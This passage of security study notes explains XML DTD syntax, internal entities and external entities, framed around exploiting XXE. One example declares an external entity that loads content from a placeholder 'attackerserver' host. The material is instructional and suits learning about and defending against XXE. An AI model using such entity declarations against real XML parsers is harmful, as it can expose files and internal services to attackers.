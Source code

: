 source: https://en.wikipedia.org/wiki/Document_type_definition

**Syntax**

```xml
<!DOCTYPE rootnode [
	<!ENTITY test "hello world">
	<!ENTITY test2 "hello world2">
]>
```

Note: It has to be defined before any XML document node begin. This means that when exploiting XXE, we cannot inject a DTD in the middle of an XML body. The syntax is also case-sensitive.

Usage of the above definition in the body:

```xml
<sample> &test; &test2;</sample>
```

### ENTITY

1. **Internal Entity**

   Definition:

   ```xml-dtd
   <!ENTITY entityname "Hello">
   <!ENTITY entityname2 'World'>
   ```

   Usage:

   ```xml
   <sample>I would like to say &entityname; &entityname2;</sample>
   ```

   Output:

   ```xml
   <sample>I would like to say Hello World</sample>
   ```

   

2. **External Entity**

   Definition:

   ```xml-dtd
   <!ENTITY includeme SYSTEM "include.xml">
   <!ENTITY includeme2 SYSTEM "http://attackerserver/include.xml">
   ```

   Usage:

   ```xml
   <sample>
       <head>Header</head>
       <first>&includeme;</first>
       <second>&includeme2;</second>
   </sample>
   ```
